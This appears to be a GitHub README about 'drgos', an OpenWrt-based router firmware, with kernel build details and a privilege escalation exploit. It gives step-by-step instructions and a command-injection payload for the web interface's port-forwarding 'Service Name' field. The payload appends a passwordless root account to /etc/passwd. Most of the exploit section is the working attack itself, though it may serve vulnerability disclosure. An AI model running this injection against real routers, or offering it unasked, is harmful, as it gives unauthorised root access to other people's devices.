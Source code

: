 # drgos

OpenWrt based operating system.

Uses Linux kernel (version 2.6.33.5-drgos-hrg1000-1.6.5-R).

Linux kernel has been compiled with gcc version 4.1.2 on Wed Aug 1 00:49:40 CEST 2012 by user pingelfeldt@se-builder

## Priviledge escalation exploit

The web interface is vulnerable to a privilege escalation exploit, which allows an attacker to gain root access.

http://192.168.1.254/cgi-bin/webif/nat-pfwd.sh

Port Forwarding Rules > Add New Rule

<code>
    <pre>
        Service Name: test`echo 'haxor::0:0:root:/root:/bin/sh' >> /etc/passwd`
        Public Ports: 80
        Local IP Address: 192.168.10.30
        Local Ports: 80
        Protocol: Both
    </pre>
</code>

Click Save

The exploit works by injecting a new user into the /etc/passwd file, which allows the attacker to log in as root.
